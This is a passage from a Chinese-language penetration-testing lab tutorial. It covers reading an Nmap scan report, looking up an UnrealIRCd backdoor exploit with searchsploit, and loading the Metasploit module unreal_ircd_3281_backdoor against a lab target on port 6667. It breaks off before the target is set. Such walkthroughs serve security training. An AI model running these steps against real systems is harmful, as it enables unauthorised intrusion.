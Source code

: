 ## 四、漏洞分析

### 4.1 对扫描的结果进行分析

我们得到了一份详细的系统扫描报告，从报告中我们可以发现系统提供的各种服务及版本，通过这些版本我们能够找到对应的漏洞信息，从而利用这些软件的漏洞对系统进行攻击。

在实验楼终端中，输入如下命令：

```
cat /tmp/report.txt
```
则可以看到刚才 Nmap 扫描出目标靶机开放的端口：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479709386906.png-wm)


### 4.2 Searchsploit 漏洞信息查询

在 kali 上其实也为我们默认集成了，一款专用于漏洞信息查询的工具 searchsploit 。使用命令如下：

```
searchsploit unreal ircd
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479714771489.png-wm)

在实验楼的终端中，我们可以使用 `cat` 来查看其内容：

```
cat /usr/share/exploitdb/platforms/linux/remote/16922.rb
```

![实验楼](https://dn-simplecloud.shiyanlou.com/2120081479714870920-wm)


### 4.3 利用漏洞进行攻击

扫描目标主机网络服务安全漏洞，主要是为了后续的渗透攻击。在这里，我们使用刚才的 Nmap 扫描得到的漏洞。进行漏洞攻击。

可通过 cat 查找刚才的 `report.txt` 文件，或者使用：

```
grep -i 6667 /tmp/report.txt
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479716499375.png-wm)

查到 `6667` 端口是开放的，下面我们使用端口 `6667` 进行演示：

进入 `msfconsole` ，接着利用 `use` 命令使用模块：
```
use exploit/unix/irc/unreal_ircd_3281_backdoor
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479716780123.png-wm)

接着在终端中，输入命令，设置攻击的目标靶机：

